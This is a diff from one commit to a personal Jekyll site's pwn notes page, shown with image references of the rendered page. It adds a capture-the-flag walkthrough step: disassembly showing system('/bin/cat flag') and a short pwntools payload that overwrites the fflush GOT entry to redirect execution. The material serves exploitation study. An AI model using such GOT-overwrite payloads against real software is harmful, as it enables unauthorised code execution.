

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 24997 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 25851 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -1020,6 +1020,29 @@ Dump of assembler code for function fflush@plt:
    0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a004
 ```
 
+```
+   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
+   0x080485ea <+134>:   call   0x8048460 <system@plt>
+```
+
+We can see system being called at 0x080485ea but we also need the instruction before it to execute.
+
+(The string "/bin/cat flag" starts at 0x80487af)
+
+So we input:
+
+```python
+>>> 0x080485e3
+134514147
+```
+
+```python
+from pwn import p32
+import sys
+payload = b'A'*96 + p32(0x804a004) + b'134514147\n'
+sys.stdout.buffer.write(payload)
+```
+
 <br>
 
 
````
